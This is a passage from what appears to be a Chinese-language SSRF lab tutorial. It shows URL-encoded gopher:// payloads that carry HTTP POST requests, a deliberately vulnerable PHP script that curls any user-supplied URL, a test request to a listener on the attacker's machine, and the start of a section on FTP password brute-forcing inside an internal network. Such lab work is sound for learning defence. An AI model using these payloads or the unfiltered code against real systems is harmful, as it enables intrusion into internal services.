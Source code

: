 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223517.png)

Content-Length为2。  

POST同理，但是需要5行。

  *   *   *   *   * 

    
    
    POST /edit.php HTTP/1.1Host: 127.0.0.1Connection: closeContent-Type: application/x-www-form-urlencodeda=Hi

  * 

    
    
    curlgopher://192.168.11.1:80/_POST%20/edit.php%3fa=Hi%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aConnection:%20close%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0a

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223519.png)

我们可以测试SSRF中gopher是否有效。

先写一个有SSRF的漏洞PHP代码,这里没对参数做任何过滤。

  *   *   *   *   * 

    
    
    <?php$url = $_GET['url'];$curlobj = curl_init($url);echo curl_exec($curlobj);?>

注意php.in 要开启extension=php_curl.dll  

Php版本>5.3 (gopher协议在5.3版本以上才开始支持)

攻击机监听本地4444端口，同时浏览器访问：

  * 

    
    
    192.168.11.1/ssrf2.php?url=gopher://192.168.11.130:4444/_hello

记得要在传输的数据前加一个无用字符。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223521.png)

收到传输过来的字符那么说明没有问题。

  

##

 **FTP爆破**

##

内网中存在弱口令的FTP比较多，我们可以尝试一下。

 **攻击机IP：192.168.11.130**

 **SSRF服务器IP：192.168.1.11**

 **FTP服务器IP：192.168.11.136**
